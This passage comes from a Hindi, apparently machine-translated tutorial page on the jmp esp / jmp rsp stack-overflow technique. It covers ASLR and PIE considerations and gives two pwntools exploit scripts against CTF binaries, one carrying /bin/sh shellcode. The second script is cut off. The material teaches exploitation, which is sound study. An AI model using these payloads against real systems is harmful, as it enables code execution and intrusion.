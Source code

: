 अगर **एड्रेस स्पेस लेआउट रैंडमाइज़ेशन (ASLR)** विंडोज या लिनक्स में सक्षम नहीं है, तो साझा लाइब्रेरी में पाए गए `jmp esp` या `call esp` इंस्ट्रक्शन का उपयोग संभव है। हालांकि, [**ASLR**](../common-binary-protections-and-bypasses/aslr/) सक्रिय होने पर, इन इंस्ट्रक्शन्स के लिए विकल्पीय कार्यक्रम के भीतर देखने की आवश्यकता हो सकती है (और आपको [**PIE**](../common-binary-protections-and-bypasses/pie/) को परास्त करने की आवश्यकता हो सकती है)।

इसके अतिरिक्त, EIP को करप्शन के बाद शैलकोड स्थापित करने की क्षमता, स्टैक के बीच में नहीं, सुनिश्चित करती है कि किसी भी `push` या `pop` इंस्ट्रक्शन जो कार्यक्रम के संचालन के दौरान कार्यान्वित होते हैं, शैलकोड के साथ हस्तक्षेप नहीं करते। यह हस्तक्षेप हो सकता है अगर शैलकोड कार्यक्रम के स्टैक के बीच में स्थापित होता।

### स्थान की कमी

अगर आप RIP को ओवरराइट करने के बाद लिखने के लिए स्थान की कमी है (शायद कुछ बाइट्स केवल), तो पहले **`jmp`** शैलकोड जैसा एक आरंभिक लिखें:
```armasm
sub rsp, 0x30
jmp rsp
```
और शेलकोड को स्टैक में पहले लिखें।

### उदाहरण

आप इस तकनीक का उदाहरण [https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp](https://ir0nstone.gitbook.io/notes/types/stack/reliable-shellcode/using-rsp) में देख सकते हैं जिसमें एक अंतिम धोखाधड़ी शामिल है:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

jmp_rsp = next(elf.search(asm('jmp rsp')))

payload = b'A' * 120
payload += p64(jmp_rsp)
payload += asm('''
sub rsp, 10;
jmp rsp;
''')

pause()
p.sendlineafter('RSP!\n', payload)
p.interactive()
```
आप इस तकनीक का एक और उदाहरण देख सकते हैं [https://guyinatuxedo.github.io/17-stack\_pivot/xctf16\_b0verflow/index.html](https://guyinatuxedo.github.io/17-stack\_pivot/xctf16\_b0verflow/index.html). यहाँ एक बफर ओवरफ्लो बिना NX सक्षम किया गया है, इसमें एक गैजेट का उपयोग किया गया है जो `$esp` का पता कम करता है और फिर `jmp esp;` का उपयोग करके शेलकोड पर जाने के लिए:
```python
# From https://guyinatuxedo.github.io/17-stack_pivot/xctf16_b0verflow/index.html
from pwn import *

# Establish the target process
target = process('./b0verflow')
#gdb.attach(target, gdbscript = 'b *0x080485a0')

# The shellcode we will use
# I did not write this, it is from: http://shell-storm.org/shellcode/files/shellcode-827.php
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"

# Establish our rop gadgets

# 0x08048504 : jmp esp
```